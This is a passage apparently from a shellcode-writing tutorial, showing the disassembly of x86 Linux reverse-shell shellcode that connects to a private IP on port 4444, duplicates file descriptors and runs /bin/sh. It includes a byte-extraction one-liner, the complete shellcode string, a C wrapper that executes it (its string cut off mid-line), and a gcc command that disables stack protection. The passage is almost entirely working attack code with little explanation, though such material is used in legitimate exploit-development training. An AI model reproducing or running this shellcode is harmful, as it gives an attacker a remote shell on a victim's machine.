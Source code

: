 ```shell
 8048094:	89 c7                	mov    edi,eax
 8048096:	b0 66                	mov    al,0x66
 8048098:	43                   	inc    ebx
 8048099:	68 c0 a8 f7 83       	push   0x83f7a8c0
 804809e:	66 68 11 5c          	pushw  0x5c11
 80480a2:	66 53                	push   bx
 80480a4:	43                   	inc    ebx
 80480a5:	89 e1                	mov    ecx,esp
 80480a7:	6a 10                	push   0x10
 80480a9:	51                   	push   ecx
 80480aa:	57                   	push   edi
 80480ab:	89 e1                	mov    ecx,esp
 80480ad:	cd 80                	int    0x80
 80480af:	89 fb                	mov    ebx,edi
 80480b1:	31 c9                	xor    ecx,ecx
 80480b3:	b1 02                	mov    cl,0x2

080480b5 <dup>:
 80480b5:	b0 3f                	mov    al,0x3f
 80480b7:	cd 80                	int    0x80
 80480b9:	49                   	dec    ecx
 80480ba:	79 f9                	jns    80480b5 <dup>
 80480bc:	52                   	push   edx
 80480bd:	68 2f 2f 73 68       	push   0x68732f2f
 80480c2:	68 2f 62 69 6e       	push   0x6e69622f
 80480c7:	89 e3                	mov    ebx,esp
 80480c9:	89 d1                	mov    ecx,edx
 80480cb:	b0 0b                	mov    al,0xb
 80480cd:	cd 80                	int    0x80
 ```
 No null bytes so we are good to keep moving forward.
 
 Extract bytes:
 ```shell
 objdump -d ./reverse_shell|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x66\xb3\x01\x51\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc7\xb0\x66\x43\x68\xc0\xa8\xf7\x83\x66\x68\x11\x5c\x66\x53\x43\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x89\xfb\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xd1\xb0\x0b\xcd\x80"
 ```
 Put it into our shellcode wrapper:
 ```c
 #include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x66\xb3\x01\x51\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc7\xb0\x66\x43\x68\xc0\xa8\xf7\x83\x66\x68\x11\x5c\x66\x53\x43\x89\xe1\x6a\x10\x51\x57\x89$

main()
{

        printf("Shellcode Length:  %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

}
 ```
 Compile:
 ```shell
 gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
 ```